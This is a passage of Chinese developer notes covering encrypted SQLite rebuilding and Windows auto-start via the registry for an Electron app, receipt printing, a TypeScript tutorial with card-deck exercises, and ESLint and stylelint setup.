better-sqlite3-multiple-ciphers源码到项目中，根目录下新增一个 js 文件用来生成 AES 加密所需要的 key 和明文密码加密之后的密文。可以使用crypto.randomBytes(32).toString('hex')这一句生成随机字符串作为加密 key，之后脚本会将 key 转换成字节数组 -
在入口文件
better_sqlite3.lzz新增一行引入刚才生成的 key -
入口文件
better_sqlite3.lzz引入使用到的头文件，并且修改binding.gyp配置文件，因为 AES 的解密会用到 openssl，需要引入 openssl 的头文件，因此需要在系统上安装 openssl，windows 的版本在这里下载 https://slproweb.com/products/Win32OpenSSL.html -
修改数据库方法定义文件
src\objects\database.lzz，篡改JS_exec方法，使其拦截 PRAGMA 传递的 key 和 rekey，然后对加密字符串进行解密 -
这个版本的 better-sqlite3-multiple-ciphers 12.2.0 还在使用
lazy c++语法，所以需要lazy c++命令行工具用来编译.lzz文件，在 https://github.com/driedfruit/lzz/releases 下载lzz工具，然后将lzz.exe放入better-sqlite3-multiple-ciphers根目录 -
然后运行下面的 npm 命令就可以重新编译 lzz 代码为 c++ 代码并且调用 node-gyp 编译为 nodejs 模块，最后就可以在 build 目录中看到编译的结果，其中包含 .node 文件就是我们需要的数据库原生模块
-
最后在我们的项目中需要加这样一个命令，用于重新编译原生模块。这里需要注意的是
--build-from-source参数，这个必须加上，否则@electron-rebuild重新编译的时候就会读取缓存不会重新从源码编译
参考链接
开机自启动
electron 软件想要实现 windows 开机自启动的切换，只需要去修改注册表就行了
下面是主进程代码：
import { promisify } from 'node:util';
import child_process from 'node:child_process';
const execAsync = promisify(child_process.exec);
async function executeRegCommand(command: string) {
try {
const { stdout, stderr } = await execAsync(command, { windowsHide: true });
if (stderr) {
global.log.info(`executeRegCommand stderr: ${stderr}`);
throw new Error(stderr);
}
return stdout;
} catch (err) {
logErrorInfo(`executeRegCommand err`, err);
throw err;
}
}
ipcMain.handle('auto-start-on-boot', async (_, toggle: boolean) => {
const regPath = `HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run`;
const PRODUCT_NAME = `app名字`;
const EXE_NAME = `app名字.exe`;
const EXEC_PATH = `${path.dirname(process.execPath)}\\${EXE_NAME}`;
const addCommand = `reg add "${regPath}" /v "${PRODUCT_NAME}" /t REG_SZ /d "${EXEC_PATH}" /f`;
const deleteCommand = `reg delete "${regPath}" /v "${PRODUCT_NAME}" /f`;
try {
await executeRegCommand(toggle ? addCommand : deleteCommand);
return { code: 0 };
} catch (err) {
logErrorInfo(`auto-start-on-boot err`, err);
return { code: -1 };
}
});
下面是 preload 代码：
import { contextBridge, ipcRenderer } from 'electron';
contextBridge.exposeInMainWorld('ipc', {
autoStartOnBoot: (toggle: boolean): Promise<any> => {
return ipcRenderer.invoke('auto-start-on-boot', toggle);
},
});
下面是渲染进程代码：
const autoStartRes = await window.ipc?.autoStartOnBoot(
autoStartup.value === '1' ? true : false
);
if (autoStartRes.code === 0) {
console.log('autoStartUpSuccess');
} else {
console.log('autoStartUpFailed');
}
reg 命令参数说明表
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "MyApp" /t REG_SZ /d "C:\Program Files\MyApp\app.exe" /f
reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "MyApp" /f
| 参数 | 作用说明 | 示例值 |
|---|---|---|
<注册表路径> | 指定要添加键值对的注册表位置，需使用反斜杠 \ 分隔层级 | HKCU\Software\Microsoft\Windows\CurrentVersion\Run（当前用户开机启动项路径） |
/v | 指定要创建的键名（即注册表中的“名称”列，如启动项的自定义名称） | MyTestApp（自定义的开机启动项名称） |
/t | 指定键值的数据类型，需使用系统规定的类型标识，常用字符串类型 | REG_SZ（字符串类型，适用于路径、文本等内容） |
/d | 指定键名对应的键值（即注册表中的“数据”列，如程序路径、配置内容） | "C:\Program Files\Test\Test.exe"（程序完整路径，含空格需加双引号） |
/f | 强制覆盖目标路径下已存在的同名键值对，执行时无需手动确认 | 无需额外值，命令中直接加 /f 即可（如 reg add ... /f） |
调用打印机打印小票
-
现在需要实现 electron 应用调用系统打印机然后打印小票的功能，主进程的核心功能实现一个
Printer类- 首先在渲染进程获取到需要打印的小票数据，以及各种所需要的配置项，比如小票页面的样式配置，用户设置的默认打印机，然后将这些数据组装好，发送
ipc到主进程请求打印 - 主进程收到请求后，将数据传递给
Printer类的print静态方法，print方法主要做的事情就是新建一个BrowserWindow用来加载小票预览页面，BrowserWindow初次加载会触发BrowserWindow.webContents的did-finish-load事件 - 监听
did-finish-load到事件触发，说明窗口已经加载完成，这时候调用Printer.renderPrintDocument方法，去将小票预览页需要的所有数据发送给BrowserWindow的页面，并且注册双向的ipc事件，用来监听页面渲染数据成功的时机 - 页面接收到小票数据之后，会渲染网页，在页面
nextTick之后发送响应的ipc事件回去，通知主进程预览页已经加载好，可以开始打印了，主进程收到这个响应之后，经过一些预览日志记录工作以及打印页面尺寸的计算工作之后，就正式调用BrowserWindow.webContents.print方法启动操作系统的打印 - 监听打印结果，成功或者失败，记录日志，然后关闭
BrowserWindow
- 首先在渲染进程获取到需要打印的小票数据，以及各种所需要的配置项，比如小票页面的样式配置，用户设置的默认打印机，然后将这些数据组装好，发送
flowchart TD
A[渲染进程获取小票数据] --> B[请求主进程打印 ]
B --> C[主进程新建 BrowserWindow ]
C --> D[监听 BrowserWindow.webContents did-finish-load 事件，主进程将数据传输给渲染进程]
D --> E[渲染进程渲染完毕，通知主进程]
E --> F[主进程记录预览日志，计算尺寸单位转换，调用 BrowserWindow.webContents.print]
F --> G[打印结果（成功/失败）反馈到渲染进程]
G --> H[清理资源（关闭窗口）]
总结
- 此解决方案灵感来源于 electron-pos-printer 这个包的源码实现，其实打印功能实现的重点就是页面的像素单位和打印机可以识别的微米单位的互相转换
- 其实有个地方还可以继续优化，就是这里计算打印尺寸的时候，直接使用了默认的 dpi 为 96，如果用户的显示器分辨率比较高，dpi 值更大，这里尺寸的转换就会出现精度问题，应该通过浏览器的
window.devicePixelRatio接口动态获取用户的显示器像素比，计算的时候用默认 dpi 乘以devicePixelRatio就可以了，96 * devicePixelRatio
参考链接
搭建 ts 开发环境
- 首先在 node 环境中搭建开发环境 （node 环境方便演示）
npm i -g typescript
-
默认情况下， ts 会做出下面几种假设：
- 假设当前执行环境是 dom
- 如果代码中没有使用模块化语句（import export），便认为该代码是全局执行的
- 编译目标代码是 es3 版本（保持最大兼容性）
-
有两种方式更改以上假设：
- 使用 tsc 命令行时加上选项参数
- 使用 ts 配置文件更改编译选项
ts 配置文件
tsc --init
- 使用了配置文件后，使用 tsc 编译时，不能后写文件名（比如 tsc index.ts），这样会忽略配置文件
- node 环境需要安装
@types/node。@types 是 ts 官方的类型库，包含很多 js 代码的类型描述
使用第三方库简化流程
- ts-node 将 ts 代码在内存中编译并运行
- nodemon 监测文件变化
nodemon --exec ts-node src/index.ts
基础
如何进行类型约束
- 可以约束变量，函数参数，函数返回值
let name: string;
name = 'haha';
function sum(a: number, b: number): number {
return a + b;
}
- ts 可以在很多场景完成类型推导
// ts 会自动推导出 sum 的返回值是 number 类型
function sum(a: number, b: number) {
return a + b;
}
- any 表示任意类型，ts 对该类型不做检查
源代码和编译结果的差异
编译结果中没有类型约束信息
基本类型
- number
- string
- boolean
- 数组
- 对象
- null undefined 是其他所有类型的子类型，可以赋值给其他类型
let num: number;
let name: string;
let isOdd: boolean;
let nums: number[];
let nums: Array<number>;
let obj: object;
let n: string = null;
let n: string = undefined;
undefined 可以赋值给其他类型造成的问题可以在配置文件中加上 strictNullChecks 来避免
{
// Visit https://aka.ms/tsconfig to read more about this file
"compilerOptions": {
// 编译选项
"target": "es2024", // 配置编译目标代码的版本
"module": "commonjs", // 配置编译目标使用的模块化标准
"lib": ["ES2024"], // 编译过程中需要引入的库文件
"outDir": "./dist", // 编译结果目录
"strictNullChecks": true // 更加严格的空值检测
},
"include": ["./src"] // 编译哪些目录下的 ts 文件
}
其他常用类型
- 联合类型 多种类型任选其一。配合类型保护进行判断，类型判断：当对某个变量进行类型判断后，在判断的语句块中便可以确定它的确切类型
- void 类型 通常用于约束函数的返回值，表示函数没有任何返回值
- never 类型 通常用于约束函数的返回值，表示函数永远不可能结束
- 字面量类型 使用一个值进行约束
- 元组类型 Tuple 一个固定长度数组，并且数组中每一项类型确定
- any 类型 可以绕过类型检查，any 类型数据可以赋值给任意类型
let name: string | undefined = undefined;
function some(): void {}
function throwError(msg: string): never {
// 永远不会结束的函数
throw new Error(msg);
}
function alwaysDoSomething(): never {
// 永远不会结束的函数
while (true) {}
}
let a: 'A';
let gender: '男' | '女';
let arr: [string, number]; // 元组类型，固定长度数组
let n: any = 1;
let s: string = '';
s = n;
类型别名
- 类型别名 对已知的类型定义名称
type 类型名 = 类型;
type Gender = '男' | '女';
type User = {
name: string;
age: number;
gender: Gender;
};
函数相关约束
- 函数重载：在函数实现之前，对函数调用的多种情况进行声明
function combine(a: number, b: number): number;
function combine(a: string, b: string): string;
function combine(a: number | string, b: number | string): string | number {
if (typeof a === 'number' && typeof b === 'number') {
return a * b;
} else if (typeof a === 'string' && typeof b === 'string') {
return a + b;
}
throw new Error('a and b must be same type');
}
- 可选参数：在某些参数名后加上问号，表示该参数可以不用传递，可选参数必须出现在参数列表的末尾
function sum(a: number, b: number, c?: number) {
if (c) {
return a + b + c;
} else {
return a + b;
}
}
function sum(a: number, b: number, c: number = 0) {
if (c) {
return a + b + c;
} else {
return a + b;
}
}
扑克牌小练习
- 目标，创建一副扑克牌（不包括大小王），打印该扑克牌
type Deck = NormalCard[];
type Color = '♥' | '♠' | '♦' | '♣';
type NormalCard = {
color: '♥' | '♠' | '♦' | '♣';
mark: number;
};
function createDeck(): Deck {
const deck: Deck = [];
for (let i = 1; i <= 13; i++) {
deck.push({
mark: i,
color: '♠',
});
deck.push({
mark: i,
color: '♣',
});
deck.push({
mark: i,
color: '♥',
});
deck.push({
mark: i,
color: '♦',
});
}
return deck;
}
function printDeck(deck: Deck) {
let result = '\n';
deck.forEach((card, i) => {
let str = card.color;
if (card.mark <= 10) {
str += card.mark;
} else if (card.mark === 11) {
str += 'J';
} else if (card.mark === 12) {
str += 'Q';
} else {
str += 'K';
}
result += str + '\t';
if ((i + 1) % 6 === 0) {
result += '\n';
}
});
console.log(result);
}
const deck = createDeck();
printDeck(deck);
扩展类型：枚举
- 枚举通常用于某个变量的取值范围。字面量和联合类型配合也可以达到同样的目标
- 字面量类型的问题：
- 在类型约束位置，会产生重复代码，使用类型别名可以解决该问题
- 逻辑含义和真实的值产生混淆，会导致修改真实值的时候，会产生大量修改
- 字面量类型不会进入编译结果
// enum 枚举名 {
// 枚举字段 = 值,
// }
enum Gender {
male = '男',
female = '女',
}
let gender: Gender;
gender = Gender.male;
-
如果要修改枚举的值，甚至修改枚举的字段名，都可以只修改一处，不用修改代码里所有使用到的地方（修改字段名按 F2 就会出现输入框可以修改一处，其他地方自动修改）
-
枚举会出现在编译结果中，编译成对象
-
枚举的字段值可以用字符串或数字
-
数字枚举的值会自动自增，不定义就从 0 开始
-
被数字枚举约束的变量，可以直接赋值为数字 （不建议）
-
数字枚举的编译结果和字符串枚举有差异
-
最佳实践
- 不要在枚举中既出现字符串值也出现数字值
- 使用枚举，尽量使用枚举字段的名称，不要使用真实值
下面使用枚举修改之前的扑克牌代码：
type Deck = NormalCard[];
enum Color {
heart = '♥',
spade = '♠',
club = '♣',
diamond = '♦',
}
enum Mark {
A = 'A',
two = '2',
three = '3',
four = '4',
five = '5',
six = '6',
seven = '7',
eight = '8',
nine = '9',
ten = '10',
jack = 'J',
queen = 'Q',
king = 'K',
}
type NormalCard = {
color: '♥' | '♠' | '♦' | '♣';
mark: Mark;
};
function createDeck(): Deck {
const deck: Deck = [];
const marks = Object.values(Mark);
const colors = Object.values(Color);
for (const m of marks) {
for (const c of colors) {
deck.push({
color: c,
mark: m,
});
}
}
return deck;
}
function printDeck(deck: Deck) {
let result = '\n';
deck.forEach((card, i) => {
let str = card.color + card.mark;
result += str + '\t';
if ((i + 1) % 6 === 0) {
result += '\n';
}
});
console.log(result);
}
const deck = createDeck();
printDeck(deck);
扩展知识 位枚举（枚举的位运算）
- 枚举的位运算针对数字枚举
enum Permission {
Read = 1, // 0001
Write = 2, // 0010
Create = 4, // 0100
Delete = 8, // 1000
}
// 1 如何组合权限 使用或运算
// 0001
// 或
// 0010
// 0011
// 或运算将两种权限合并起来
let p: Permission = Permission.Read | Permission.Write;
// 2 如何判断是否拥有某个权限
// 0011
// 且
// 0010
// 0010
function hasPermission(target: Permission, per: Permission) {
return (target & per) === per;
}
hasPermission(p, Permission.Read);
// 3 如何删除某个权限
// 0011
// 异或
// 0010
// 0001
p = p ^ Permission.Write;
模块化
- ts config 模块化相关配置
| 配置名称 | 含义 |
|---|---|
| module | 设置编译结果中使用的模块化标准 |
| moduleResolution | 设置解析模块的模式 |
| removeComments | 编译结果移除注释 |
| noEmitOnError | 错误时不生成编译结果 |
| esModuleInterop | 启用 es 模块化交互非 es 模块导出 |
-
前端模块化标准： esm commonjs amd umd system esnext
-
主要关注两个：
- ts 中如何书写模块化语句
- 编译结果是什么模块标准
-
ts 中导入和导出模块统一使用 esm 模块系统
-
编译结果使用什么模块标准是可以配置的，修改 tsconfig.json 中的 compilerOptions.module 即可
-
如果 module 设置为 esm，编译结果和 ts 代码没有区别
-
如果 module 设置为 commonjs ，导出的声明变成 exports 的属性，默认导出变成 exports.default 属性
// index.ts
export const name = 'kevin';
export function sum(a: number, b: number): number {
return a + b;
}
// test.ts
import { name, sum } from './index';
console.log(name);
console.log(sum(1, 2));
- 下面是编译成 commonjs 的结果
// index.js
'use strict';
Object.defineProperty(exports, '__esModule', { value: true });
exports.name = void 0;
exports.sum = sum;
exports.name = 'kevin';
function sum(a, b) {
return a + b;
}
// test.js
('use strict');
Object.defineProperty(exports, '__esModule', { value: true });
const index_1 = require('./index');
console.log(index_1.name);
console.log((0, index_1.sum)(1, 2));
- 如何在 ts 中书写 commonjs 模块代码
// 导出
export = name;
// 导入
import name = require('name');
// 这样写会被编译成 commonjs，并且保留类型提示
- 模块解析：从什么位置寻找模块，tsconfig 中的
moduleResolution配置项- 'node16' 或 'nodenext'：适用于现代版本的 Node.js。Node.js v12 及更高版本同时支持 ECMAScript 导入（import）和 CommonJS 引入（require），二者采用不同的解析算法。这两个 moduleResolution 值在与对应的 module 配置项结合使用时，会根据输出的 JavaScript 代码中 Node.js 实际识别的是 import 还是 require，自动选择对应的解析算法。
- 'node10'（此前名为 'node'）：适用于 v10 之前的旧版本 Node.js，这类版本仅支持 CommonJS 的 require 语法。在现代代码中，你大概率无需使用 node10 选项。
- 'bundler'：适用于打包工具（如 Webpack、Vite 等）场景。与 node16 和 nodenext 类似，该模式支持识别 package.json 中的 "imports" 和 - "exports" 字段；但与 Node.js 相关的解析模式不同，bundler 模式从不要求在相对路径导入语句中指定文件扩展名（如 .js、.ts）。 'classic'：是 TypeScript 1.6 版本发布前使用的解析模式，不应再使用。
interface 接口
- 接口： 用于描述对象，和类型别名有一些区别，比如约束类方面
interface User {
readonly id: number;
name: string;
age: number;
sayHello: () => void;
doSomething(): void;
}
// 接口的继承
interface A {
t1: string;
}
interface B {
t2: string;
}
interface C extends A, B {
t3: string;
}
- readonly 只读修饰符，属性是只读的不能修改
// 只读数组，这个数组的改变元素的方法都无法使用了
const arr: readonly number[] = [1, 2, 3];
类型兼容性
- 类型兼容性，如果 B 类型能够赋值给类型 A，则 B 和 A 类型就兼容了
- 鸭子辩型法 子结构辩型法，目标类型需要某些特征，而赋值的类型只要满足该特征即可，例如只要会嘎嘎叫并且会游泳就是鸭子
- 但是直接使用对象字面量赋值的时候，会进行更加严格的判断
interface Duck {
sound: '嘎嘎嘎';
swim(): void;
}
let person = {
name: '伪装成鸭子的人',
age: 11,
sound: '嘎嘎嘎' as '嘎嘎嘎',
swim() {
console.log(`${this.name}正在游泳并且发出了${this.sound}的声音`);
},
};
let duck: Duck = person;
// 下面对象字面量直接赋值，ts 会直接报错
let duck: Duck = {
name: '伪装成鸭子的人',
age: 11,
sound: '嘎嘎嘎' as '嘎嘎嘎',
swim() {
console.log(`${this.name}正在游泳并且发出了${this.sound}的声音`);
},
};
扑克牌小练习 interface
- interface 改写扑克牌练习，加入大小王
enum Color {
heart = '♥',
spade = '♠',
club = '♣',
diamond = '♦',
}
enum Mark {
A = 'A',
two = '2',
three = '3',
four = '4',
five = '5',
six = '6',
seven = '7',
eight = '8',
nine = '9',
ten = '10',
jack = 'J',
queen = 'Q',
king = 'K',
}
interface Card {
getString(): string;
}
type Deck = Card[];
interface NormalCard extends Card {
color: Color;
mark: Mark;
}
interface Joker extends Card {
type: 'big' | 'small';
}
function createDeck(): Deck {
const deck: Deck = [];
const marks = Object.values(Mark);
const colors = Object.values(Color);
for (const m of marks) {
for (const c of colors) {
deck.push({
color: c,
mark: m,
getString() {
return `${this.color}_${this.mark}`;
},
} as Card);
}
}
let joker: Joker = {
type: 'small',
getString() {
return 'small joker';
},
};
deck.push(joker);
joker = {
type: 'big',
getString() {
return 'big joker';
},
};
deck.push(joker);
return deck;
}
function printDeck(deck: Deck) {
let result = '\n';
deck.forEach((card, i) => {
result += card.getString() + '\t';
if ((i + 1) % 6 === 0) {
result += '\n';
}
});
console.log(result);
}
const deck = createDeck();
printDeck(deck);
类
- ts 要求使用属性列表描述类中的属性
- "strictPropertyInitialization": true, // 更严格的属性初始化，必须在 constructor 中初始化属性
- 属性的初始化有两个位置：构造函数中，属性默认值
- 属性可以修饰为可选的
- 属性可以修饰为只读的
- 访问修饰符：控制类中的某个成员的访问权限
- public 默认的访问修饰符，所有地方都可以访问
- private 私有的，只能在类中访问
- protected
- 属性简写：如果某个属性，通过构造函数参数传递，并且不做任何处理直接赋值给该属性，可以简写
- 访问器：用于控制属性的赋值和取值
class User {
readonly id: number;
name: string;
_age: number;
gender: '男' | '女' = '男';
pid?: string;
private publishNumber: number = 3;
private currentNumber: number = 0;
constructor(name: string, age: number) {
this.id = Math.random();
this.name = name;
this._age = age;
}
set age(value: number) {
if (value < 0) {
this._age = 0;
} else if (value > 200) {
this._age = 200;
} else {
this._age = Math.floor(value);
}
}
get age() {
return this._age;
}
publish(title: string) {
if (this.currentNumber < this.publishNumber) {
console.log(`发布一篇文章: ${title}`);
} else {
console.log('发布文章已经到达上限');
}
}
}
const u = new User('test', 1);
class Test {
// 属性简写，构造函数中的参数加上访问修饰符，就意味着定义了一个属性，构造函数接收参数后自动赋值给属性，不做其他修改
constructor(public name: string) {}
}
扑克小游戏改成类写法
enum Color {
heart = '♥',
spade = '♠',
club = '♣',
diamond = '♦',
}
enum Mark {
A = 'A',
two = '2',
three = '3',
four = '4',
five = '5',
six = '6',
seven = '7',
eight = '8',
nine = '9',
ten = '10',
jack = 'J',
queen = 'Q',
king = 'K',
}
export class Deck {
private cards: Card[] = [];
constructor(cards?: Card[]) {
if (cards) {
this.cards = cards;
} else {
this._init();
}
}
private _init() {
const marks = Object.values(Mark);
const colors = Object.values(Color);
for (const m of marks) {
for (const c of colors) {
this.cards.push({
color: c,
mark: m,
getString() {
return `${this.color}_${this.mark}`;
},
} as NormalCard);
}
}
let joker: Joker = {
type: 'small',
getString() {
return 'small joker';
},
};
this.cards.push(joker);
joker = {
type: 'big',
getString() {
return 'big joker';
},
};
this.cards.push(joker);
}
print() {
let result = '\n';
this.cards.forEach((card, i) => {
result += card.getString() + '\t';
if ((i + 1) % 6 === 0) {
result += '\n';
}
});
console.log(result);
}
publish(): [Deck, Deck, Deck, Deck] {
let player1: Deck, player2: Deck, player3: Deck, left: Deck;
player1 = this.takeCards(17);
player2 = this.takeCards(17);
player3 = this.takeCards(17);
left = new Deck(this.cards);
return [player1, player2, player3, left];
}
private takeCards(n: number): Deck {
const cards: Card[] = [];
for (let i = 0; i < n; i++) {
cards.push(this.cards.shift() as Card);
}
return new Deck(cards);
}
shuffle() {
for (let i = 0; i < this.cards.length; i++) {
const index = this.getRandom(0, this.cards.length);
[this.cards[i], this.cards[index]] = [this.cards[index], this.cards[i]];
}
}
private getRandom(min: number, max: number) {
const dec = max - min;
return Math.floor(Math.random() * dec + min);
}
}
interface Card {
getString(): string;
}
interface NormalCard extends Card {
color: Color;
mark: Mark;
}
interface Joker extends Card {
type: 'big' | 'small';
}
const deck = new Deck();
deck.shuffle();
deck.print();
const data = deck.publish();
for (let i = 0; i < data.length; i++) {
data[i].print();
}
泛型
- 泛型相当于一个类型变量，在定义时，无法预先知道具体的类型，可以使用该变量来代替，只有调用时才能确定它的类型
- ts 会根据传递的参数推导出泛型的具体类型，如果无法完成推导，并且也没有传递具体的类型，默认为空对象
- 泛型可以设置默认值
function test<T = number>(arr: T[]){}
- 泛型约束
// 使用 extends 来约束泛型满足某种条件
function test<T extends someType>(data: T){}
- 多泛型
// 将两个数组混合
// [1, 3, 4] + ["a", "b", "c"] = [1, "a", 3, "b", 4, "c"]
function mixinArr<T, K>(arr1: T[], arr2: K[]): (T | K)[] {}
- 小练习实现一个字典类
type Callback<K, V> = (key: K, val: V) => void;
class Dictionary<K, V> {
private keys: K[] = [];
private vals: V[] = [];
set(key: K, val: V) {
const i = this.keys.indexOf(key);
if (i < 0) {
this.keys.push(key);
this.vals.push(val);
} else {
this.vals[i] = val;
}
}
forEach(callback: Callback<K, V>) {
this.keys.forEach((k, i) => {
const v = this.vals[i];
callback(k, v);
});
}
has(k: K): boolean {
return this.keys.includes(k);
}
delete(k: K) {
const i = this.keys.indexOf(k);
if (i === -1) {
return;
}
this.keys.splice(i, 1);
this.vals.splice(i, 1);
}
}
ESLint代码规范
基础使用
ESLint 是一个用来检查代码错误的工具。
// 安装 eslint 到当前项目
npm install eslint --save-dev
yarn add eslint --dev
// 为当前项目生成 eslint 配置文件，会在项目目录下生成 .eslintrc.{js,yml,json} 文件
npx eslint --init
yarn run eslint --init
npx eslint --init 初始化选择 es6 module 模块，vue 后，生成的 .eslintrc.js 文件如下：
module.exports = {
"env": {
"browser": true,
"es2021": true
},
"extends": [
"eslint:recommended",
"plugin:vue/essential"
],
"parserOptions": {
"ecmaVersion": 12,
"sourceType": "module"
},
"plugins": [
"vue"
],
"rules": {
}
};
rules 定义具体规则
其中 rules 字段就是用来加入自定义规则的地方。例如可以这样写：
{
"rules": {
"semi": ["error", "always"], // 必须使用分号，否则报错
"quotes": ["error", "single"] // 尽可能使用单引号，否则报错
}
}
env 环境设置
- 每个不同的环境都定义了一组不同的全局变量。通过设置 env 指定具体的环境变量。
- browser 浏览器环境变量
- node nodejs 环境变量
- es2021 添加所有 ECMAScript 2021 环境变量，并设置解析器选项 ecmaVersion 为 12
- es6 启用所有 ECMAScript 6 特性，并设置解析器选项 ecmaVersion 为 6
eslint 扩展配置
- .eslintrc.js 配置文件是可以扩展的。配置文件一旦被扩展了，就会继承其他配置文件的属性并且所有选项都被修改。基础配置文件会和扩展配置文件合并成最终的结果配置文件。
- 通过设置配置文件中的 extends 字段可以设置扩展
- 字符串。配置文件的路径，可共享配置的名称（例如， eslint:recommended ，eslint:all）
- 字符串數組。多个配置文件
- extends 属性如果设置了 eslint:recommended 则会使用一组常见问题的规则
- extends 属性也可以写成类似 plugin:vue/essential 的形式，这个意思是使用 eslint-plugin-vue 插件，斜杠后是具体的配置名。（也就是这样的语法：plugin:省略了 eslint-plugin- 前缀的包名/配置名）
parserOptions 指定解析器选项
- ecmaVersion 可以设置的值为 3, 5 (default), 6, 7, 8, 9, 10, 11, or 12。用来指定 ECMAScript 版本。
- sourceType 设置值为 "script" (default) 或者 "module"。普通 script 标签引入代码或者 es6 模块。
- ecmaFeatures 值为一个对象，设置一些你想开启的语言特性。
- globalReturn 允许全局作用域下使用 return 语句
- impliedStrict 开启全局严格模式（如果 ecmaVersion 大于等于 5）
- jsx 启用 jsx
parser 指定解析器
- 默认情况下 eslint 使用的解析器是 Espree，可以指定其他解析器
plugins 插件
eslint 可以使用第三方插件。
- 通过 plugins 字段设置插件，值是一个插件名组成的数组，数组的元素是插件名字，省略 eslint-plugin- 前缀。比如使用 eslint-plugin-vue 就设置 'vue' 即可。
root: true
- 默认情况下，ESLint 会在所有父级目录里寻找配置文件。ESLint 一旦发现配置文件中有 "root": true，它就会停止在父级目录中寻找。
为 vue 项目配置 eslint
vue 项目使用 eslint 必须使用 eslint-plugin-vue，同时还有 vue-eslint-parser，vue-eslint-parser 可以让 eslint 去识别 .vue 文件中的 template 模板。
npm install --save-dev eslint eslint-plugin-vue vue-eslint-parser
vue 项目可以使用下面的配置：
module.exports = {
env: {
browser: true,
es6: true,
node: true,
},
parser: 'vue-eslint-parser',
parserOptions: {
ecmaVersion: 2021,
sourceType: 'module',
parser: 'babel-eslint'
},
plugins: ['vue'],
root: true,
rules: {
// 禁止使用 var 来声明
'no-var': 'error',
// 禁止修改 const 声明的变量
'no-const-assign': 'error',
// 优先使用 const 而不是 let
'prefer-const': ['error', { destructuring: 'all' }],
// 声明的变量必须被使用
'no-unused-vars': [
'error',
{
args: 'none',
caughtErrors: 'none',
ignoreRestSiblings: true,
vars: 'all',
},
],
// 推荐使用模板字符串
'prefer-template': 'warn',
// 使用分号结尾
semi: ['error', 'always'],
// 使用单引号
quotes: ['error', 'single'],
// 2 个空格缩进
indent: [
'error',
4,
{
SwitchCase: 1,
offsetTernaryExpressions: true,
},
],
// 组件的 data 必须是一个函数
'vue/no-shared-component-data': 'error',
// 校验组件的 Prop 默认值类型
'vue/require-valid-default-prop': 'error',
// v-for 必须含有键值
'vue/require-v-for-key': 'error',
// 禁止注册没有使用的组件
'vue/no-unused-components': 'warn',
// render 函数必须有返回值
'vue/require-render-return': 'error',
},
};
-
当项目中监测出大量错误时，使用自定义的终端命令去自动修复一些问题：
"lint-all": "eslint --fix --ext .js --ext .vue src/"。这个命令的含义：1. --fix 是指自动修复的意思 2. --ext 用于指定需要修复的文件的后缀名 3. src/ 指的是需要执行命令的目录 -
在代码中添加一些注释可以取消 eslint 的检测：
/* eslint-disable */
// 这中间的代码不检测
/* eslint-enable */
// 本行不检测
// eslint-disable-line
// 下一行不检测
// eslint-disable-next-line
stylelint 代码规范
基础使用
stylelint 用于检查 css 代码的风格和错误。
// vue 项目安装下面三个
yarn add -D stylelint stylelint-scss stylelint-config-standard stylelint-webpack-plugin
配置文件
stylelint 使用下面这几种配置文件都可以：
- 在 package.json 文件中添加 stylelint 字段
- 项目根目录添加 .stylelintrc 文件，文件内容是 json 对象
- 项目根目录添加 stylelint.config.js 文件，文件中导出一个 js 对象
- 项目根目录添加 stylelint.config.cjs 文件，文件中导出一个 js 对象。（这种情况是当在 package.json 中指定了 "type": "module" 的情况，也就是开启了 nodejs 的 ES module 模式，详情可以查看 nodejs文档）
rules
- 配置对象中的 rules 用来指定自定义规则。
- 和 eslint 不同，stylelint 中具体的一条规则没有默认值，需要用户自己手动来指定。
- rules 是一个对象，属性 key 对应规则的名字，属性 value 对应规则的具体配置。属性 value 可以有如下写法
- null 将此规则关闭
- 只写一个值，即使用主要设置。（指定一个主要设置就自动将此规则开启）
- 两个值，在一个数组中，
[主要设置，次要设置]
下面是例子
{
"rules": {
"block-no-empty": null,
"comment-empty-line-before": [
"always",
{
"ignore": ["stylelint-commands", "after-comment"]
}
],
"max-empty-lines": 2,
"unit-allowed-list": ["em", "rem", "%", "s"]
}
}
severity
通过指定规则的 severity 次要设置来修改它严重程度。
severity 有两个值:
- "warning"
- "error" (默认值)
{
"rules": {
"indentation": [
2,
{
"except": ["value"],
"severity": "warning"
}
]
}
}
extends
通过 extends 字段指定第三方配置对象。
{
"extends": "stylelint-config-standard",
"rules": {
"indentation": "tab",
"number-leading-zero": null
}
}
{
"extends": ["stylelint-config-standard", "./myExtendableConfig"],
"rules": {
"indentation": "tab"
}
}
最终第三方的配置和自定义的配置合并，自定义规则会覆盖第三方的规则，第三方的规则按照数组顺序后出现的规则会覆盖前面的。
plugins
- 插件是社区创建的一整组规则，为了去支持一些非标准的 css 语法，或者工具或者一些具体的应用场景。
- 比如 stylelint-scss 支持 sass 语法的检查
ignoreFiles
可以提供 glob 或者 一组 glob 来指定忽略哪些文件。
{
"ignoreFiles": ["**/*.js"]
}
忽略规则
下面三种注释分别是忽略此行之后所有代码，忽略下一行，忽略下一行的特定规则。
/* stylelint-disable */
.a {}
/* stylelint-disable-next-line */
.a {}
/* stylelint-disable-next-line block-no-empty */
.a {}
为 vue 配置 stylelint
项目目录下新建 stylelint.config.js 文件，其中写入下列配置:
module.exports = {
"extends": "stylelint-config-standard",
"plugins": [
"stylelint-scss"
],
"rules": {
// 不要使用已被 autoprefixer 支持的浏览器前缀
'media-feature-name-no-vendor-prefix': true,
'at-rule-no-vendor-prefix': true,
'selector-no-vendor-prefix': true,
'property-no-vendor-prefix': true,
'value-no-vendor-prefix': true,
// 最多允许嵌套 20 层，去掉默认的最多 2 层
'max-nesting-depth': 20,
// 颜色值要小写
'color-hex-case': 'lower',
// 颜色值能短则短
'color-hex-length': 'short',
// 不能用 important
'declaration-no-important': true,
}
}
在 vue.config.js 中添加 configureWebpack 字段，其中添加 plugin
{
configureWebpack: {
plugins: [
new StylelintPlugin({
files: ['./src/**/*.{vue,htm,html,css,sss,less,scss,sass}'],
})
]
}
}
这样每次本地运行项目的时候都会自动 stylelint 所有文件。开发环境能够对 vue 文件起作用的原因是因为 vue-loader 已经添加了对 stylelint 的支持，所以只需要简单配置就可以了。
在 package.json 中加入一个命令：
{
"scripts": {
"style-all": "stylelint ./src/**/*.{vue,css,sass,scss} --fix"
}
}
这个命令运行后会自动修复所有文件的 css 代码
prettier 代码规范
基础使用
prettier 是一个代码格式化工具，用于统一代码风格。
yarn add -D prettier stylelint-config-prettier eslint-config-prettier
和其他 lint 一起使用
